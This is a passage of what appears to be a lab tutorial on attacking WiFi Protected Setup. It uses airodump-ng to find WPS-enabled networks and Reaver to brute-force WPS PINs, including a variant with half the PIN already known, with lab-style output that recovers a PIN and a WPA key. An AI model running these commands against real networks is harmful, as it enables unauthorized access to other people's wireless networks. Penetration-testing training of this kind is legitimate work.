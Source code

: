 Once we've added an interface with monitor mode enabled, we can use `airodump-ng` to enumerate WPS enabled WiFi networks.

```shell
airodump-ng mon0 --wps

 CH  8 ][ Elapsed: 0 s ][ 2024-06-26 10:06

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSID

 AE:EB:B0:11:A0:1E  -28       11        0    0   1   54   WPA2 CCMP   PSK  2.0    HackMe
 B2:A5:1D:E1:B2:11  -28       11        0    0   1   54   WPA2 CCMP   PSK  2.0    GammerZone
 5A:1A:59:B7:E7:97  -28       11        0    0   1   54   WPA2 CCMP   PSK  2.0    Teddy

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

```

Now we can start bruteforcing using Reaver. To begin, we need to specify the interface with the `-i` argument, the BSSID with the `-b` argument, and the channel with the `-c` argument. Reaver will then automatically begin bruteforcing every possible PIN, which totals `11,000` possible PINs.

```shell
reaver -i mon0 -b AE:EB:B0:11:A0:1E -c 1

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <[email protected]>

[+] Waiting for beacon from AE:EB:B0:11:A0:1E
[+] Received beacon from AE:EB:B0:11:A0:1E
[!] Found packet with bad FCS, skipping...
[+] Associated with AE:EB:B0:11:A0:1E (ESSID: HackMe)
[+] Associated with AE:EB:B0:11:A0:1E (ESSID: HackMe)
[+] Associated with AE:EB:B0:11:A0:1E (ESSID: HackMe)
[+] WPS PIN: '96457896'
[+] WPA PSK: '<SNIP>'
[+] AP SSID: 'HackMe'

```

* * *

### Bruteforcing using half known WPS PIN

If we know the first four digits of the WPS PIN, we can use Reaver to bruteforce the remaining four digits. We can provide the known half PIN using the `-p` option followed by the first four digits. For example, if the known first half of the PIN is 1234, we would use `-p 1234`.

```shell
reaver -i mon0 -b B2:A5:1D:E1:B2:11 -c 1 -p 1234

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <[email protected]>

[+] Waiting for beacon from B2:A5:1D:E1:B2:11
[+] Received beacon from B2:A5:1D:E1:B2:11
[!] Found packet with bad FCS, skipping...
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] 90.91% complete @ 2024-06-21 11:32:33 (0 seconds/pin)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
```